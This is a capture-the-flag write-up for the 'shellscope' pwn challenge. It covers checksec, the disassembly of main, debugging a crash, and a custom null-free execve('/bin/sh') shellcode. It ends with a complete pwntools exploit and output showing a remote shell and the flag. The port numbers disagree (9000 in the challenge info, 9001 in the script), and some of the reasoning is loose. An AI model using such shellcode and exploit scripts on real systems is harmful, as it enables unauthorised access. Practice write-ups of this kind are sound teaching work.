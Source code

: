 # shellscope Writeup

## Challenge infos

```text
Welcome to Pwnable.co.il!
I hope you'll like this one...

Challenge is running at: nc pwnable.co.il 9000
```

## Executable analysis
### checksec output
```text
        Arch:       amd64-64-little
        RELRO:      🟢 Full RELRO
        Stack:      🔴 No canary found
        NX:         🟢 NX enabled
        PIE:        🟢 PIE enabled
        SHSTK:      🟢 Enabled
        IBT:        🟢 Enabled
        Stripped:   🔴 No
```
* as we can see, the binary is very secure, it has full RELRO, NX enabled, PIE enabled, SHSTK enabled, and IBT enabled.
* this means that it will be hard to exploit the binary, but not impossible.
### main disassembly
```asm
   0x00000000000011a9 <+0>:     endbr64
   0x00000000000011ad <+4>:     push   rbp
   0x00000000000011ae <+5>:     mov    rbp,rsp
   0x00000000000011b1 <+8>:     sub    rsp,0x10
   0x00000000000011b5 <+12>:    mov    r9d,0x0
   0x00000000000011bb <+18>:    mov    r8d,0xffffffff
   0x00000000000011c1 <+24>:    mov    ecx,0x21
   0x00000000000011c6 <+29>:    mov    edx,0x7
   0x00000000000011cb <+34>:    mov    esi,0x1000
   0x00000000000011d0 <+39>:    mov    edi,0x0
   0x00000000000011d5 <+44>:    call   0x1090 <mmap@plt>
   0x00000000000011da <+49>:    mov    QWORD PTR [rbp-0x8],rax
   0x00000000000011de <+53>:    mov    rax,QWORD PTR [rbp-0x8]
   0x00000000000011e2 <+57>:    lea    rsi,[rip+0x2e37]        # 0x4020 <reset_shellcodes>
   0x00000000000011e9 <+64>:    mov    rdi,rax
   0x00000000000011ec <+67>:    call   0x1080 <strcpy@plt>
   0x00000000000011f1 <+72>:    mov    rax,QWORD PTR [rip+0x2e68]        # 0x4060 <stdin@@GLIBC_2.2.5>
   0x00000000000011f8 <+79>:    mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000000011fc <+83>:    lea    rcx,[rdx+0x30]
   0x0000000000001200 <+87>:    mov    rdx,rax
   0x0000000000001203 <+90>:    mov    esi,0xfcf
   0x0000000000001208 <+95>:    mov    rdi,rcx
   0x000000000000120b <+98>:    call   0x10a0 <fgets@plt>
   0x0000000000001210 <+103>:   mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000001214 <+107>:   mov    edx,0x5
   0x0000000000001219 <+112>:   mov    esi,0x1000
   0x000000000000121e <+117>:   mov    rdi,rax
   0x0000000000001221 <+120>:   call   0x10b0 <mprotect@plt>
   0x0000000000001226 <+125>:   mov    rax,QWORD PTR [rbp-0x8]
   0x000000000000122a <+129>:   call   rax
   0x000000000000122c <+131>:   mov    eax,0x0
   0x0000000000001231 <+136>:   leave
   0x0000000000001232 <+137>:   ret
```
* the main function is a bit complex, it uses `mmap` to allocate memory for a shellcode, copies the shellcode into the allocated memory, and then calls it.
* the shell code cannot have any null bytes, as it is copied into a buffer that is not null-terminated.


### first exploit attempt
* let's try to exploit the binary by sending a shellcode that spawns a shell.
* we will use pwntools to create the shellcode and send it to the binary. (shellcarft.sh() has no null bytes)
```python
io = start()

io.sendline(asm(shellcraft.sh()))
io.interactive()
```
* the out put looks like this:
```text
[+] Starting local process '/home/omri/dev/pwn-writeups/il/shellcope/shellcope': pid 44596
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ 
[*] Process '/home/omri/dev/pwn-writeups/il/shellcope/shellcope' stopped with exit code -11 (SIGSEGV) (pid 44596)
[*] Got EOF while sending in interactive
```
* we got a segmentation fault, which means that the shellcode is not being executed correctly.
* let's try to debug the binary and see what is going wrong.
### debugging the binary
* we can use gdb to debug the binary and see what is going wrong.
![gdb output](gdb.png)
* as we can see, the payload is not being executed correctly, and the program is crashing at push instruction.
* this is because sp is set to 0x0 so when we try to push we write to address 0x0, which is not allowed.
### Fixing the shellcode
* we can fix this by putting the `/bin/sh` string after the code, this way ther is no need to push anything to the stack.
* we can do this by using the `lea` instruction to load the address of the string into a register, and then use that register to call the `execve` syscall.
* the shellcode will look like this:
```asm
    lea rdi, [rip - 1] /* Get address of "/bin/sh" using RIP-relative and -1 for no nulls*/
    sub rdi, -9 /* Adjust to point to the start of the string  and sub - insted of add + to avoid nulls*/
    mov al, 59           /* execve syscall number */
    syscall
binsh:
    .ascii "/bin/sh\\0"
```
### Final exploit code
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template shellcope
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'shellcope')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote('pwnable.co.il', 9001, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()
shellcode = """
    lea rdi, [rip - 1] /* Get address of "/bin/sh" using RIP-relative */
    sub rdi, -9
    mov al, 59           /* execve syscall number */
    syscall
binsh:
    .ascii "/bin/sh\\0"
"""

io.sendline(asm(shellcode))
io.interactive()
```
* now, when we run the exploit, we should get a shell.
```
[+] Opening connection to pwnable.co.il on port 9001: Done
[*] Switching to interactive mode
$ ls
flag.txt
shellcope
ynetd
$ cat flag.txt
PWNIL{flag_is_here}
```
